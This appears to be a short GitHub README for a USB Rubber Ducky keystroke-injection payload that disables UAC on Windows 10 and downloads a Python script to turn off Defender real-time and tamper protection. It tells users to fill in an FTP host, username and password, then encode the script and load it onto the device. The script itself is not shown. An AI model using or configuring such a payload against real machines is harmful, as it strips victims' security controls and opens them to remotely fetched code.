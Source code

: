 -----------------------------------------------------
# Rubber Ducky UAC and AV deactivation script


REM Title:         Disable_UAC_and_AV

REM Description    Disable UAC and download py script to disable Realtime and tamper protection

REM Author:        FX17

REM Version:       1.0

REM Target:        Windows 10

REM Attackmodes:   HID

———————————————————————————————————————————————————————————————

Be sure to edit the .txt file lines 96, 99 and 102.

For example the script should look like:

96: `STRING 192.168.0.69 21`

99: `STRING FX17`

102: `STRING SecurePassword123!`


After these changes encode the script and upload to your ducky!

If you have any issues running this script, please contact me via discord: @Keiran1712

-----------------------------------------------------
